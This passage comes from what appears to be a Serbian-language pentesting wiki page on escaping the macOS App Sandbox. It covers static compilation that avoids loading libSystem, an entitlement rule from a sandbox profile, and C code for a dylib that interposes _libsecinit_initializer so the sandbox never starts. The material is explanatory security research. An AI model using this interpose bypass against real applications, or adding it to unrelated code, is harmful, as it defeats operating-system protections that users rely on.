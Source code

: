 {% content-ref url="../../../macos-proces-abuse/" %}
[macos-proces-abuse](../../../macos-proces-abuse/)
{% endcontent-ref %}

### Statičko kompajliranje i dinamičko povezivanje

[**Ovo istraživanje**](https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/) je otkrilo 2 načina zaobilaženja Sandbox-a. Budući da se Sandbox primenjuje iz userland-a kada se učita biblioteka **libSystem**. Ako bi binarna datoteka mogla izbeći njeno učitavanje, nikada ne bi bila stavljena u Sandbox:

* Ako je binarna datoteka **potpuno statički kompajlirana**, mogla bi izbeći učitavanje te biblioteke.
* Ako binarna datoteka ne bi trebala da učitava bilo koje biblioteke (jer je i linkera u libSystem), neće morati da učitava libSystem.

### Shell kodovi

Imajte na umu da **čak i shell kodovi** na ARM64 moraju biti povezani sa `libSystem.dylib`:

```bash
ld -o shell shell.o -macosx_version_min 13.0
ld: dynamic executables or dylibs must link with libSystem.dylib for architecture arm64
```

### Ovlašćenja

Imajte na umu da čak i ako su neke **radnje** dozvoljene u **pesku**, ako aplikacija ima određeno **ovlašćenje**, kao što je:

```scheme
(when (entitlement "com.apple.security.network.client")
(allow network-outbound (remote ip))
(allow mach-lookup
(global-name "com.apple.airportd")
(global-name "com.apple.cfnetwork.AuthBrokerAgent")
(global-name "com.apple.cfnetwork.cfnetworkagent")
[...]
```

### Interpost Bypass

Za više informacija o **Interpostingu** pogledajte:

{% content-ref url="../../../macos-proces-abuse/macos-function-hooking.md" %}
[macos-function-hooking.md](../../../macos-proces-abuse/macos-function-hooking.md)
{% endcontent-ref %}

#### Interpostujte `_libsecinit_initializer` da biste sprečili sandbox.

```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>

void _libsecinit_initializer(void);

void overriden__libsecinit_initializer(void) {
printf("_libsecinit_initializer called\n");
}

__attribute__((used, section("__DATA,__interpose"))) static struct {
void (*overriden__libsecinit_initializer)(void);
void (*_libsecinit_initializer)(void);
}
_libsecinit_initializer_interpose = {overriden__libsecinit_initializer, _libsecinit_initializer};
```